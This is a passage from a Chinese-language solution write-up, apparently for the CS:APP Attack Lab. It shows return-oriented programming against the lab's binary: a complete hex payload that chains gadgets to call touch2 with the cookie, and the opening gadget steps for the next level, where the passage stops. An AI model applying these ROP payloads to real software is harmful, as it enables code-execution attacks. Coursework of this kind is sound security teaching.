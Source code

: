 接着想办法把`%rax`的值传递到`%rdi`。查表，在gadget中找到`48 89 c7`，也就是`movq %rax, %rdi`指令，可以在`<addval_273>`中找到，而且后面正好跟了`c3`，记录起始地址为`0x4019a2`。

到此，我们完成了`gadget`的拼凑，输入的字符串如下：

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00							# 改写返回地址为0x4019ab, 执行popq %rax
fa 97 b9 59 00 00 00 00							# 保存cookie的值: 0x59b997fa
a2 19 40 00 00 00 00 00							# 执行mov %rax, %rdi
ec 17 40 00 00 00 00 00							# 跳转到touch2, touch2起始地址为0x4017ec
```

此时的栈组织如下：
![](image10.png)
### 第五关

和第三关类似，这关需要将`cookie`字符串的首地址传给`%rdi`, 再调用`touch3`。

由于栈位置是随机的，需要用**栈顶地址+偏移**来确定`cookie`串的位置。 栈顶地址即`$rsp`，可通过`mov %rsp XXX`获取，偏移需要根据`gadget`指令的长度来确定。

如何将`cookie`串地址传到`%rdi`呢？可以在`farm.o`中可以找到如下的`gadget`

```assembly
00000000004019d6 <add_xy>:
  4019d6:   48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:   c3
```

再结合所有`gadget`，多次尝试后发现一个可行解，如下：

* 将`%rsp`传给`%rdi`，利用`mov`实现。

* 将偏移传给`%rsi`， 需利用`pop`和多个`mov`实现。偏移量需要在找到所有`gadget`后通过计算得出。

* 用`lea (%rdi,%rsi,1),%rax`，将`cookie`串的首地址传给`%rax`

* 将`%rax`传给`%rdi`，利用`mov`指令

#### 具体步骤

##### 1. 将`%rsp`传给`%rdi`

通过`movq %rsp,%rax`,`movq %rax,%rdi`实现：

```assembly
0000000000401aab <setval_350>:
  401aab:   c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:   c3                      retq
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      retq
```
